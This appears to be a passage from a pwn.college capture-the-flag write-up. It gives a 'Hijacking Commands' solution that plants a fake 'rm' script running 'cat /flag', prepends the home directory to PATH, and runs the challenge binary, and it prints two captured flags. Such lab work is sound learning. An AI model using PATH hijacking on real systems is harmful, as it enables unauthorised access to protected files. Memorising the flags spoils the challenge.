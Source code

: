 **Flag:** 
```
pwn.college{ou0iXM8lGuXvL71yiVFCcOHDLVD.dZzNyUDL0czN0czW}
```

---

## Hijacking Commands

**Steps:**
1. Use the `touch` command to create a file in home called `rm`.
2. Use the `echo` command to write `cat /flag` into the `rm` file.
3. Use `chmod` to make it executable.
4. Add the home/hacker path to the beginning of the `PATH` variable.
5. Execute the `run` command.

**Commands:**
```bash
touch rm
echo "cat /flag" > rm
chmod a=rwx rm
PATH="~:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
/challenge/run
```

**Flag:** 
```
pwn.college{wNe8MC6w-rGcTlBVbBASMAFX_WR.ddzNyUDL0czN0czW}
```
